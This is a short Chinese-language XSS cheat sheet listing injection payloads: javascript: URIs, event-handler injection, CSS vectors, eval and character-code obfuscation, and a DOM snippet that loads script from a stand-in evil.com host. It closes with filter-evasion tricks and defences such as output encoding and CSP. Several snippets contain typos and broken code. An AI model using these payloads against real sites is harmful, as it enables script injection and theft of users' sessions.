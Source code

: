 #### 示例
1.正常注入（sec,javascript) 
```
<img src="javascript:alert(/xss/)" width=100 />   
```
2.事件注入（onerror、onclick)
```
<img src="#" onerror="javascript:alert(/xss/)" />

<div onclick="javascript:alert(/xss/)"></div> 
```
3.通过css构造(background-img:url、expression、link-href、@import)
```
<div style="background-image:url(javascript:alert(xcss'));width:expression(alert('xss'))"></div>
<style>body{background-image:url("javascript:alert('xss')")}</style>
<link rel="stylesheet" href="http://www.evil.com/attack.css">
<style>@import 'javascript:alert('xss')'</style>
```
4.通过Javascript函数(eval()函数、ASCII编码)
```
<script>eval("alert('xss')")</script>
<img src="javascript:eval(String.fromaCharCode(97,108,123,34,45))" />
```
5.基于DOM型创建（有字数限制的输入框）
```
<script>z="document."</script>
<script>z=z+"write"</script>
<script>z=z+"alert"</script>
<script>z=z+"/xss/"</script>
<script>z=z+");"</script>
<script>eval(z)</script>
```
6.基于DOM型创建(创建节点)
```
var a = document.createElement('script')
a.src='http://www.evil.com/css.js'
document.getElementsByTagName('head')[o].appendChild(s)
```

#### XSS构造
- 通过html属性构造：src,lowsrc,dynsrc,bgsound,background,action,href,value...
- 通过html事件构造：onclick,onerror,onmouseover
- 通过css构造：@import,background-image:url,expression(IE)
- 通过javascript构造：javascript:eval()
- 基于DOM：document.write(),node.innerHTML,document.createElement()
- 注入代码变形构造：加空格、回车、Tab、\、\0、加注释、单引号、不用引号、用ASCII转码、转大小写、转全角

#### XSS的防御
- 避免使用客户端数据，尽量服务端生成
- javascript变量输出时先编码
- XSS过滤(js-xss,http://jsxss.com)
- CSP(content security policy):通过在http响应头中加入相关指令告知浏览器，被保护页面仅允许加载和执行指令中限制的内容，不满足的资源与内容不执行或被客户端阻断

